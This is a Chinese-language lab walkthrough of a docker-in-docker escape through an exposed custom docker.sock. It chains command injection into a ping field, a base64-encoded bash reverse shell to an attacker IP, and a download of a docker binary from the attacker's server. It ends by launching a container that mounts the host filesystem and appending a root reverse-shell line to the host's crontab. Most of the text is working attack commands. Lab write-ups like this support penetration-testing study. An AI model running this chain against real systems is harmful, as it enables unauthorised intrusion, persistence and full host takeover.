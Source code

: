 DIND (docker-in-docker) exploitation

DIND （docker-in-docker） 漏洞利用

地址：http://192.168.86.139:1231/

知识点：

custom/docker/docker.sock 通常是 Docker 守护进程的 Unix 套接字文件。Docker 守护进程使用套接字来与客户端通信，接受来自客户端的 Docker 命令并管理容器的生命周期等。

在正常的 Docker 安装中，通常使用默认的套接字文件路径 /var/run/docker.sock。但在你的情况下，你使用了一个自定义路径 custom/docker/docker.sock。这可能是为了满足一些特殊需求或者是出于安全性或其他目的。

1、有了这个，我们在dcoerk容器中，可以通过这个和宿主机的docker进行通信，下发一个带有特权的docker到宿主机\[也就是真实机器\]，然后逃逸

![](./assets/image-20231120165606896.png)

发现是执行的Ping，这个时候我们可以使用linux管道符

![](./assets/image-20231120165554724.png)

 

mount命令查看当前挂载的文件系统信息

127.0.0.1 \| mount

![image-20231120165550304](./assets/image-20231120165550304.png)

发现存在docker.sock

127.0.0.1 \| ls -lah /custom/docker/docker.sock

挂载Docker Socket逃逸

开始逃逸

1、需要在目前机器需要挂载了docker.sock

2、目标机器需要安装docker

 

127.0.0.1 \| wget <https://download.docker.com/linux/static/stable/x86_64/docker-18.09.9.tgz> -O /tmp/docker-18.09.9.tg

127.0.0.1 \| ls /tmp

![image-20231120165633844](./assets/image-20231120165633844.png)

 

 

 

 

解压文件到指定目录

127.0.0.1 \| tar -xvzf /tmp/docker-18.09.9.tg -C /tmp/

这个不知道为什么会解密失败[后面发现是下载这个包出现的问题]

这个时候我们反弹shell

在线生成反弹shell:

<https://taoyuan.cool/shell/>

 

但是又遇到一个问题

```shell
bash -i \>& /dev/tcp/192.168.86.218/3332 0\>&1
```

命令带有空格，某些字符会被转义，这个时候我们可以使用先base64编码在执行

```shell
echo 'bash -i \>& /dev/tcp/192.168.86.218/3332 0\>&1' \| base64
```

![image-20231120165640482](./assets/image-20231120165640482.png)

执行下面命令

127.0.0.1 \| echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljg2LjIxOC8zMzMyIDA+JjEK" \| base64 -d \| bash

![image-20231120165644125](./assets/image-20231120165644125.png)

python3 -m http.server 80

起一个http环境，我们把安装包上传上去

<https://download.docker.com/linux/static/stable/x86_64/docker-18.09.9.tgz>

这个实在的话，需要根据你实在机器选择版本，不然会报错

![image-20231120165708255](./assets/image-20231120165708255.png)

下载：wget <http://192.168.86.218/docker-18.09.9.tg>

 

解压

```shell
tar -zxf docker-18.09.9.tg

cd /docker

chmod +x docker

./docker -H unix:///custom/docker/docker.sock images
```

![image-20231120165717661](./assets/image-20231120165717661.png)

成功主机docker容器\[逃逸成功\]

下发一个挂载真实机器目录的docker

```shell
./docker -H unix:///custom/docker/docker.sock run -d -v /:/host ubuntu tail -f /dev/null  
```


![image-20231120165724338](./assets/image-20231120165724338.png)

查看正在运行的容器：

```shell
./docker -H unix:///custom/docker/docker.sock ps
```

【因为我这里测试，所以有两个】

![image-20231120165727992](./assets/image-20231120165727992.png)

执行命令

```shell
./docker -H unix:///custom/docker/docker.sock exec IMAGE_ID 命令

./docker -H unix:///custom/docker/docker.sock exec b0261bfba7c4 ls
```

![image-20231120165731270](./assets/image-20231120165731270.png)

这个host目录就宿主机目录，这个时候我们可以执行反弹shell拿到真实机器权限

```shell
./docker -H unix:///custom/docker/docker.sock exec b0261bfba7c4 ls /host
```

![image-20231120165735260](./assets/image-20231120165735260.png)

查看宿主机计划任务

```shell
./docker -H unix:///custom/docker/docker.sock exec b0261bfba7c4 cat /host/etc/crontab
```

![image-20231120165744344](./assets/image-20231120165744344.png)

 写入计划任务

```shell
./docker -H unix:///custom/docker/docker.sock exec b0261bfba7c4 sh -c 'echo "\* \* \* \* \* root bash -i \>& /dev/tcp/192.168.86.218/4444 0\>&1" \>\> /host/etc/crontab'
```

![image-20231120165752630](./assets/image-20231120165752630.png)

写入成功

![image-20231120165816602](./assets/image-20231120165816602.png)

拿下node1

![image-20231120165820064](./assets/image-20231120165820064.png)

 
